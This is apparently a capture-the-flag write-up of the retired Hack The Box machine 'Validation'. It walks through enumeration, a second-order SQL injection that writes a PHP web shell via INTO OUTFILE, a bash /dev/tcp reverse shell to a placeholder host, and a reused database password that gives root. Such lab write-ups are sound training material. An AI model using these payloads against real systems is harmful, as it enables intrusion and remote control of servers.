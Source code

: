 ```yaml
---
title: "Validation HTB"
date: 2021-09-24T17:30:30
categories:
  - study
tags:
  - Linux
  - Web
  - SQLi
  - Password Reuse
  - ClearText Credentials
classes: wide
---
```

Validation is an easy rated retired linux box made by Ippsec for the Ultimate Hacking Championship(UHC) qualifier. 

It can be found [here.](https://app.hackthebox.eu/machines/Validation/)

<h2> Enumeration</h2>
**Nmap scan results:**

```
22/tcp   open     ssh            syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http           syn-ack     Apache httpd 2.4.48 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open     http           syn-ack     nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp           no-response
5001/tcp filtered commplex-link  no-response
5002/tcp filtered rfe            no-response
5003/tcp filtered filemaker      no-response
5004/tcp filtered avt-profile-1  no-response
5005/tcp filtered avt-profile-2  no-response
5006/tcp filtered wsm-server     no-response
5007/tcp filtered wsm-server-ssl no-response
5008/tcp filtered synapsis-edge  no-response
8080/tcp open     http           syn-ack     nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<h4>What is the scan telling us?</h4>

- Port 22 is running the usual ssh, specifically OpenSSH 8.2p1 Ubuntu.
- Port 80 is running an Apache http server, Apache 2.4.48.
- Port 4566, 8080 are running nginx servers?
- Ports 5000-5008 are appearing but are filtered despite the `-Pn` on the Nmap scan.

<h4> Why are these ports filtered?</h4>

0xdf may have provided an explanation on their [blog](https://0xdf.gitlab.io/2021/09/14/htb-validation.html#beyond-root):

>*"I noticed ports 5000-5008 were filtered in my initial nmap scan. These ports are actually different Docker instances of the same exploitable webapp (I think he actually used 5000-5031). Then he has a kernel module that is re-writing incoming packets for TCP 80 based on the source IP to one of the containers, so there’s significantly fewer players interacting with each instance."*

<h4>What is Nginx?</h4>

According to the [official site](https://www.nginx.com), Nginx is an *"open source web server that powers more than 400 million websites"*. It also seems to have features that allow it to be used as a reverse proxy, load balancer, mail proxy and HTTP cache.

**Gobuster:**

```
/index.php (Status: 200)
/account.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/config.php (Status: 200)
/server-status (Status: 403)
```

Navigating to http://10.10.11.116:4566/ , we see 403 forbidden nginx. 
`/config.php` looks interesting but unfortunately returns a blank page.

Navigating to the main site on port 80 we see a username field and a drop down list of countries. The site seems to be asking us to "Register Now" for "Join the UHC - September Qualifiers". 

Inputting strings and clicking "Join Now" leads us to `/account.php` and a list of other usernames that have been entered before. This suggests that this information has been stored.

Accessing `/account.php` from the index directly seems to bring us to the last country we submitted a username to, which suggests a cookie associated with the submission. Deleting the cookie results in the /account.php stage asking us to "Please register!".

Registering to Brazil again and we still see the usernames registered before, confirming the storage of input on the website.

**sqlmap**
```
Parameter: country (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=lVdH&country=Brazil' AND (SELECT 6558 FROM (SELECT(SLEEP(5)))TuOt) AND 'FzfL'='FzfL
---
do you want to exploit this SQL injection? [Y/n] y
[08:49:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.48, PHP 7.4.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```

Sqlmap lets us know that the backend database is MySQL 5.0.12 and the site is running PHP 7.4.23 and there is clearly some capability for SQLi.

I admit that I don't know much about SQL and SQL injections. Gonna have to read the writeups for foothold.

<h2>Foothold</h2>

It seems that this website and database are vulnerable to something known as a second order SQL injection. [Portswigger](https://portswigger.net/kb/issues/00100210_sql-injection-second-order) describes this as:

>*"Second-order SQL injection arises when user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way. To detect the vulnerability, it is normally necessary to submit suitable data in one location, and then use some other application function that processes the data in an unsafe way."*

We open up **burpsuite** in order to intercept the form.

It seems that when we supply a country and username to the form on the website we see that in burpsuite intercept it looks like:

```
username=test&country=Brazil
```

And then if we add a single quote `'` to the end of Brazil to break the SQL, like so:
```
username=test&country=Brazil'
```

And then forward the request, we get as a response on the `/account.php` page: 

```
Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool in 
/var/www/html/account.php:33 Stack trace: #0 {main} thrown in /var/www/html/account.php on line 33
```
This shows that the site is taking our user-supplied data and then incorporating it into the account.php query, a "Second-order SQL injection". 

So it is possible to write a file into the `/var/www/html` directory, which means we can place a simple php web shell in our burpsuite request with SQL commands: 

```
username=test&country=Brazil' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/rev.php'-- -
```

The initial command `union select` is indicating that we wish to execute additional select queries. The command `into outfile` is explained by the [mysql documentation](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) as:

>*"The SELECT ... INTO OUTFILE 'file_name' form of SELECT writes the selected rows to a file. The file is created on the server host, so you must have the FILE privilege to use this syntax. file_name cannot be an existing file, which among other things prevents files such as /etc/passwd and database tables from being modified."*

So we are saying, whatever is selected in the backend, also select (union select) `"<?php SYSTEM($_REQUEST['cmd']); ?>"` (php webshell code) and put it into a file in `/var/www/html/` called `rev.php`. 

The addition of `-- -` at the end ensures that the command is ended, as anything after the double hyphen and space is a comment.

From here we can navigate to our simple php shell and add commands after `?cmd=` like so:

```
http://10.10.11.116/rev.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Now we have RCE we can setup a reverse shell.

We setup our nc listener, find a bash tcp reverse shell, url encode it and then execute the following in the url:

```
10.10.11.116/rev.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/YOURIP/YOURPORT+0>%261'
```

We then catch our shell, and have access as `www-data`. We navigate to `/home/htb` and find the userflag.


<h2>Privilege Escalation</h2>

Checking the writeup and it all seems so obvious...

Remember that blank `config.php` we saw in gobuster earlier?

It was blank because we did not have permission to view it.

Now we can read the contents:

```bash
www-data@validation:/var/www/html$ cat config.php
cat /var/www/html/config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>

```

This password conveniently contains the phrase "global-pw", which suggests it is a reused password. We test and it can be used to `su root`. We do this, enter the password and now we have a root shell!

The flag is found in the usual `/root/root.txt`.

<h4>For next time:</h4>

- Learn about SQL, learn how SQL injection works. There's a fun SQL murder mystery from [knight lab](https://mystery.knightlab.com/) that looks cool.
- Remember to enumerate the /www/html directory. Especially for a web box, config.php is a good find and should have been checked immediately. 



